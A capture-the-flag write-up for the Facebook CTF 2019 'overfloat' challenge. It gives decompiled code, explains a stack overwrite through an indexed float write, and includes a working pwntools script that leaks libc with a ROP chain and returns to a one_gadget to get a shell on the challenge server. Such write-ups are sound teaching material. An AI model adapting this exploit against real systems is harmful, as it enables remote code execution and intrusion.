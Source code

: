 # Facebook CTF 2019 - overfloat

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [rsp+10h] [rbp-30h]

  ...

  chart_course((__int64)&s);
  puts("BON VOYAGE!");
  return 0;
}
```

main calls chart_course with its parameter of an address of its local variable.
```
__int64 __fastcall chart_course(__int64 a1)
{
  __int64 result; // rax
  float v2; // xmm1_4
  char s; // [rsp+10h] [rbp-70h]
  float v4; // [rsp+78h] [rbp-8h]
  int i; // [rsp+7Ch] [rbp-4h]

  for ( i = 0; ; ++i )
  {
    if ( i & 1 )
      printf("LON[%d]: ", (unsigned int)(i / 2 % 10));
    else
      printf("LAT[%d]: ", (unsigned int)(i / 2 % 10));
    fgets(&s, 100, stdin);
    if ( !strncmp(&s, "done", 4uLL) )
      break;
    v2 = atof(&s);
    v4 = v2;
    memset(&s, 0, 0x64uLL);
    *(float *)(4LL * i + a1) = v4;
LABEL_9:
    ;
  }
  
  ...

}
```

Vuln is at `*(float *)(4LL * i + a1) = v4;`.
It overwrites memories in main's stack frame. We can overwrite return address of main function with arbitrary value.

Exploit scenario is
1. Make rop chain and return to main.
  - pop rdi; ret;
  - got of puts
  - plt of puts
  - main
2. Again overwrite main's return address with one_gadget
3. Get shell

```
from pwn import *
import struct

bin = ELF('./overfloat')
libc = ELF('./libc-2.27.so')

pop_rdi_ret = 0x400a83
one_gadget_offset = [0x4f2c5, 0x4f322, 0x10a38c]

LOCAL = False

if LOCAL:
    # conn = process('./overfloat', env={'LD_PRELOAD':'./libc-2.27.so'})
    conn = process('./overfloat')
    gdb.attach(conn, 'b * 0x400a1f')
else:
    conn = remote('challenges.fbctf.com', 1341)

for i in range(14):
    conn.sendlineafter(']: ', str(0))

conn.sendlineafter(']: ', '5.881243e-39')  # pop rdi ret
conn.sendlineafter(']: ', '0')
conn.sendlineafter(']: ', '8.827732e-39')  # puts_got
conn.sendlineafter(']: ', '0')
conn.sendlineafter(']: ', '5.879826e-39')  # puts_got
conn.sendlineafter(']: ', '0')
conn.sendlineafter(']: ', '5.880906e-39')  # main
conn.sendlineafter(']: ', '0')
conn.sendlineafter(']: ', 'done')

conn.recvuntil('BON VOYAGE!\n')
libc_addr = u64(conn.recv(6) + '\x00\x00') - libc.symbols['puts']
one_gadget_addr = libc_addr + one_gadget_offset[0]

log.info('Libc Addr: ' + hex(libc_addr))
log.info('Libc Addr: ' + hex(one_gadget_addr))

for i in range(14):
    conn.sendlineafter(']: ', str(0))

conn.sendlineafter(']: ', str(struct.unpack(
    '!f', hex(one_gadget_addr & 0xffffffff)[2:].decode('hex'))[0]))
conn.sendlineafter(']: ', str(struct.unpack(
    '!f', ('0000'+hex((one_gadget_addr & 0xffffffff00000000) >> 32)[2:]).decode('hex'))[0]))
conn.sendlineafter(']: ', 'done')

conn.sendline('cd home;cd overfloat;cat flag')
conn.interactive()
```